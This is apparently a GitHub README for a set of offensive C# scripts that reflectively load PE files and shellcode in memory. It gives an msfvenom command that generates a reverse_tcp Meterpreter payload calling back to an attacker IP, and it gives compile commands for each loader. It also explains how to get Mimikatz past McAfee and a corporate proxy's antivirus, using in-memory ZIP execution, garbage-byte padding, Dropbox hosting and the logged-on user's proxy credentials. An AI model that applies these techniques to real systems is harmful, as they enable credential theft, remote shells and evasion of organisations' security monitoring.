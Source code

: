 C# Scripts
============

Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)

This repository aims at publishing some of my C# scripts. Most are just forked/inspired from other scripts I found there and there, and I adapted to fit my needs or just to learn and improve.


Playing with PE and Shellcode reflective injection
----------------
This is a collection of scripts adapted from Casey Smith's ([@subTee](https://twitter.com/subTee)) work on reflectively inject PE or shellcode into the calling process, from various sources.

**peloader.cs**

This scripts loads a base64 encoded **x64** PE file (*for example: Mimikatz or a Meterpreter*) into the process's memory and reflectively executes it. The PE is passed as a base64 string variable at the beginning of the file (yes, it's hardcoded).

You can generate this base64 encoded string from any file using the following \*nix command line:
```
root@kali:~# base64 -w 0 mimikatz.exe > mimikatz.b64
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:peloader.exe peloader.cs
```

**shellcodelauncher.cs**

This script executes a shellcode into the process's memory and reflectively executes it. The shellcode is passed as an array of bytes in a variable. You can get the proper code for this array automatically generated for you with Metasloit's msfvenom utility. For example, to generate a reverse_tcp meterpreter shellcode:

```
root@kali:~# msfvenom -a x86_64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f csharp
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs
```

**runfromzipinmemory.cs**

This script is heavily and shamefully based, inspired, derived from Casey Smith (@subTee) work on Netkatz.

I found out that the local antivirus (*McAfee*) on my corporate workstation is configured to *NOT* analyze the content of a ZIP file, probably on the assumption that whenever this content is to be read or executed it would normally first be extracted somewhere on the disk, and any bad stuff in it would get caught by the AV at that time.

What this script does is loading everything in memory and work only from there, also using reflection to execute a PE from the calling process memory.

So not only the AV doesn't bark at all, but from a forensic perspective, the only "visibly running process" looks perfectly innocent.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /reference:System.IO.Compression.dll /out:runfromzipinmemory.exe runfromzipinmemory.cs
```

You can then execute:
```
unfromzipinmemory.exe <zip_file> <exe_from_zip_file_to_be_executed>
```

**netPEloader.cs**

This script is heavily based and inspired from Casey Smith (@subTee) work on Netkatz.

Netkatz is a fantastic PoC of loading the latest mimikatz release from GitHub and execute if straight in memory. However, I faced three problems in my environment:

1. The connection to the internet has to be made through a corporate proxy requiring NTLM authentication (*Windows SSO is OK*)
2. The github page of Mimikatz is blocked by the corporate proxy due to website categorization
3. The mimikatz_trunked.zip file is being detected by the proxy AV (*yes, with SSL inspection turned on at the proxy level*)

So I modified the original netkatz script to address these 3 issues:

1. Added system proxy and default credentials support (*currently logged on Windows user*)
2. Hosting the PE on a non blocked web site, innocent looking like www.dropbox.com
3. As per making the PE undetectable by AV, we could go throuth various obfuscation methods like encrypting, specific encoding, but I like the simple technique of adding 65536 random garbage bytes at the beginning of the real x64 Mimikatz PE:
	- dd if=/dev/urandom of=garbage bs=65536 count=1
	- cat garbage mimikatz.exe > mimiHidden
	- Upload mimiHidden to dropbox and share it	

The URL from where to download the hidden PE is hardcoded in the script.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:netPEloader.exe netPEloader.cs
```
